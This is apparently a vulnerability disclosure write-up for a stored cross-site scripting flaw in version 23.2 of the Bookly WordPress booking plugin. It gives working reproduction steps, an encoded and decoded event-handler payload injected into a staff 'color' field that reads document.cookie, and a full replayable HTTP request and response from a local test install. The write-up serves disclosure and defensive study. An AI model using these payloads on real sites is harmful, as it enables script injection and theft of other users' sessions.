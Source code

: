 
  author: 'Daniel',
  date: '2024-02',
  title: 'WordPress Online Booking and Scheduling Plugin',
  description:
    'XSS',
}

  title: article.title,
  description: article.description,
}


### Plugin: WordPress Online Booking and Scheduling Plugin – Bookly

- **Version:** 23.2
- **Author:** [Nota-Info](https://www.booking-wp-plugin.com/?utm_source=bookly_admin&utm_medium=plugins_page&utm_campaign=plugins_page)
- **Last Updated:** 1 month ago
- **Requires WordPress Version:** 3.7 or higher
- **Compatible up to:** 6.5.3
- **Requires PHP Version:** 5.3.7 or higher
- **Active Installations:** 70,000+

https://wordpress.org/plugins/bookly-responsive-appointment-booking-tool/


### Description

The Bookly plugin for WordPress is vulnerable to Stored Cross-Site Scripting in versions up to, and including, 23.2 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with subscriber-level access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.

**CVSS Vector**[CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N)

## Reproduction

### Adding a staff account

URI: /wp-admin/admin.php?page=bookly-staff
I've added an account with my wp user with subscriber privileges.

<Image src={Image1} alt="" />
![[Pasted image 20240522013246.png]]

The colour picker displays the payload however manipulating the request in Burpsuite is recommended, I imagine some DOM based sanitization occurs through the picker.
<Image src={Image2} alt="" />
![[Pasted image 20240522013329.png]]

### Edit the profile and intercept the request with Burpsuite

<Image src={Image3} alt="" />
![[Pasted image 20240522013831.png]]

### Using autofocus to execute Javascript on page load.

Quite a few event payloads work such as "onhover", "mouseover" etc. Autofocus in combination with onfocus proved to be the most reliable.  

Payload: 
```
%7B%22full%5Fname%22%3A%220xSubscriber%200xSubscriber%22%2C%22email%22%3A%220xbishop%2001%40proton%2Eme%22%2C%22info%22%3A%22%7Bstaff%5Finfo%7D%22%2C%22color%22%3A%22pink%3B%5C%22%20onfocus%3D%27javascript%3Aalert%28document%2Ecookie%29%27%20autofocus%20id%3Dx%20tabindex%3D2%27%22%2C%22visibility%22%3A%22public%22%2C%22id%22%3A%221%22%2C%22attachment%5Fid%22%3A%22%22%2C%22phone%22%3A%22%22%7D
```

Decoded:
```
{"full_name":"0xSubscriber 0xSubscriber","email":"0xbishop 01@proton.me","info":"{staff_info}","color":"pink;\" onfocus='javascript:alert(document.cookie)' autofocus id=x tabindex=2'","visibility":"public","id":"1","attachment_id":"","phone":""}
```
### Payload successfully executes for other users

![[Pasted image 20240522014150.png]]
<Image src={Image4} alt="" />



### Appendix

Text Request for easy replication


``` 
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1:1337
Content-Length: 399
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:1337
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:1337/wp-admin/admin.php?page=bookly-staff
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_32f00fe45378e26b2fea13815ec4c1b0=0xSubscriber%7C1716471661%7Cw7JeytpHOj2S9olGwrA3fK86rZLzHGZNcIKan2QrArX%7C9e62b007202046359282eb87745216e17f9a18392b74d1abecc2825ef928a4ee; bookly_cal_view=timeGridDay; wp-settings-3=uploader%3D1; wp-settings-time-3=1711260343; PHPSESSID=a3e822af0b833054983410ec8889c0ee; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_32f00fe45378e26b2fea13815ec4c1b0=0xSubscriber%7C1716471661%7Cw7JeytpHOj2S9olGwrA3fK86rZLzHGZNcIKan2QrArX%7C4e3349f52f4808046edb3967f96ade82d9044a5783c4fab007d2190aaf017f45; wp-settings-time-2=1716298919
Connection: close

action=bookly_update_staff&csrf_token=3623d338db&json_data=%7B%22full%5Fname%22%3A%220xSubscriber%200xSubscriber%22%2C%22email%22%3A%220xbishop%2001%40proton%2Eme%22%2C%22info%22%3A%22%7Bstaff%5Finfo%7D%22%2C%22color%22%3A%22pink%3B%5C%22%20onclick%3D%27javascript%3Aalert%281%29%27%22%2C%22visibility%22%3A%22public%22%2C%22id%22%3A%221%22%2C%22attachment%5Fid%22%3A%22%22%2C%22phone%22%3A%22%22%7D
```

Text Response

``` json
HTTP/1.1 200 OK
Date: Tue, 21 May 2024 14:45:03 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.18
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Pragma: no-cache
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Length: 598
Connection: close
Content-Type: application/json; charset=UTF-8

{"success":true,"data":{"staff":{"id":"1","wp_user_id":"2","category_id":null,"attachment_id":null,"full_name":"0xSubscriber 0xSubscriber","email":"0xbishop 01@proton.me","phone":null,"info":"{staff_info}","working_time_limit":null,"visibility":"public","position":"1","google_data":null,"outlook_data":null,"time_zone":null,"zoom_authentication":"default","zoom_oauth_token":null,"icalendar":"0","icalendar_token":"0f5524d6a688977dcb0446a303a5d99f","icalendar_days_before":"365","icalendar_days_after":"365","color":"pink;\" onclick='javascript:alert(1)'","gateways":null,"cloud_msc_token":null}}}
```

